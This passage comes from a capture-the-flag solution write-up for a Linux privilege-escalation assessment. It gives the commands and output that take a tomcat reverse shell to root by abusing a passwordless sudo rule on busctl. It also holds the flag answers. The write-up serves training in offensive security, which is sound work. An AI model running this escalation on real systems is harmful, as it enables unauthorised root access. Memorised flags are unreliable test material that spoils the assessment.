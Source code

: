 At last, students need to print out the contents of "flag4.txt", which is in the directory `/var/lib/tomcat9/`:

```shell
cat /var/lib/tomcat9/flag4.txt
```
```
cat /var/lib/tomcat9/flag4.txt

LLPE{im_th3_m@nag3r_n0w}
```

Answer: `LLPE{im_th3_m@nag3r_n0w}`

# Linux Local Privilege Escalation - Skills Assessment

## Question 5

### "Submit the contents of flag5.txt"

Using the same reverse shell session attained in the previous question as the user `tomcat`, students need to check what programs can be run as `root`, finding the binary `/usr/bin/busctl`:

```shell
sudo -l
```
```
sudo -l

Matching Defaults entries for tomcat on nix03:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tomcat may run the following commands on nix03:
    (root) NOPASSWD: /usr/bin/busctl
```

To exploit this misconfiguration, students need to refer to the [GTFOBins](https://gtfobins.github.io/gtfobins/busctl/) page for `busctl`:

![[HTB Solutions/CPTS/z. images/4a091326c5c2ef4ffeabb88e735b359b_MD5.jpg]]

Therefore, all that students require to elevate privileges to `root` is two commands:

```shell
sudo busctl --show-machine
!/bin/sh
```

However, before that, students first need to attain a PTY instead of the current dumb terminal. Afterward, students can exploit the misconfiguration to become `root`:

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
sudo busctl --show-machine
!/bin/bash
```
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@nix03:/var/lib/tomcat9$ sudo busctl --show-machine
sudo busctl --show-machine
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/bash
!//bbiinn//bbaasshh!/bin/bash
root@nix03:/var/lib/tomcat9# cat /root/flag5.txt
cat /root/flag5.txt
LLPE{0ne_sudo3r_t0_ru13_th3m_@ll!}
```
